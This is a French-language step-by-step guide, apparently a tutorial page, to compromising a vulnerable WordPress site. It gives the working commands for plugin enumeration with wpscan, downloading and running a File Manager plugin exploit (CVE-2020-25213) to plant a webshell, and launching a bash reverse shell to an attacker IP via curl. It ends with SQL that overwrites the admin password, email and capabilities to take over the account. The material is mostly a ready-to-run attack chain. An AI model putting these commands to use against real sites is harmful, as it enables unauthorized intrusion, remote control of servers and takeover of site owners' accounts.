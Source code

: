 Ce scénario guidé permet de compromettre un site WordPress vulnérable et d'obtenir un reverse shell en moins de 30 minutes.

**Étape 1 : Reconnaissance initiale**

Identifier la version de WordPress et les plugins installés :
```bash
wpscan --url http://cible.com --enumerate p,t,u --api-token=YOUR_API_TOKEN
```

Rechercher des vulnérabilités dans les plugins détectés :
```bash
searchsploit wordpress plugin nom_du_plugin
```

**Étape 2 : Exploitation d'un plugin vulnérable**

Supposons que le scan a identifié le plugin "File Manager" vulnérable (CVE-2020-25213) :

```bash
# Télécharger l'exploit
wget https://www.exploit-db.com/download/49178 -O exploit.py

# Exécuter l'exploit pour uploader un webshell
python3 exploit.py http://cible.com/
```

**Étape 3 : Préparation du reverse shell**

Sur la machine attaquante, préparer un listener :
```bash
nc -lvnp 4444
```

**Étape 4 : Exécution du reverse shell**

Accéder au webshell uploadé et exécuter une commande pour établir un reverse shell :
```bash
# Via le navigateur, accéder à http://cible.com/wp-content/plugins/wp-file-manager/lib/files/shell.php

# Ou via curl
curl -s "http://cible.com/wp-content/plugins/wp-file-manager/lib/files/shell.php" --data "cmd=bash -c 'bash -i >& /dev/tcp/IP_ATTAQUANT/4444 0>&1'"
```

**Étape 5 : Élévation de privilèges dans WordPress**

Une fois le shell obtenu, élever les privilèges dans WordPress :
```bash
# Accéder à la base de données
mysql -u wordpress_user -p wordpress_db

# Dans MySQL, créer un utilisateur administrateur
mysql> UPDATE wp_users SET user_pass = MD5('nouveau_mot_de_passe') WHERE user_login = 'admin';
mysql> UPDATE wp_users SET user_email = 'votre_email@exemple.com' WHERE user_login = 'admin';
mysql> UPDATE wp_usermeta SET meta_value = 'a:1:{s:13:"administrator";b:1;}' WHERE user_id = 1 AND meta_key = 'wp_capabilities';
```
